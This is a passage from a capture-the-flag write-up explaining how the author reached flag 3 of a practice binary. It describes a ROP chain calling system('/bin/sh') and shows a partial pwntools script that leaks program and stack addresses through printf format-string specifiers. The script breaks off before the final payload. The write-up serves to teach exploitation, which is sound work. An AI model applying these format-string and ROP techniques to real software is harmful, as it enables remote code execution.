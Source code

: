 ![Flag 2](images/flag2.png)

*Note: I did not keep a copy of this flag so this is a demo value.*

## 3

Given we proved we can redirect control flow by ovewriting the return, this is a perfect candidate for a `ROP`.

The program has two useful gadgets for us. We have a call to `system` from `testsystem` and a `POP RDI` in `popopops`. [From documentation](https://man7.org/linux/man-pages/man3/system.3.html), we see `system` only takes one arguments and for `x86_64` this the first argument is usually `RDI`.

We would want `RDI` to be `/bin/sh` (to have a full remote shell). ~~There is no easy access to `/bin/sh`, but we can add one ourselves by adding to end of our `ROP` payload. We'd also need a stack address, which luckily we can leak with `%10$p~` `printf` format.~~ (There is a `/bin/sh` in a message that can be used instead. This is much easier than finding an offset on stack like this, but this is the way I solved it).

We can edit the script from flag 2 to get the final full RCE payload.

```py
import pwn

elf = pwn.context.binary = pwn.ELF("chal1")

def main() -> None:
    sess = pwn.process([elf.path])

    # Leak Program Address
    sess.sendline(b"3")
    sess.sendline(b"1")

    sess.recvuntil(b"DOWN):")
    sess.sendline(b"%11$p~")

    address = int(sess.recvuntil(b"~").split(b" ")[-1][:-1].decode(), 16)
    elf.address = address - 0x20c7

    sess.sendline(b"n")

    # Leak Stack Address
    sess.sendline(b"3")
    sess.sendline(b"1")

    sess.recvuntil(b"DOWN):")
    sess.sendline(b"%10$p~")

    stack_address = int(sess.recvuntil(b"~").split(b" ")[-1][:-1].decode(), 16)

    sess.sendline(b"n")

    # Admin
```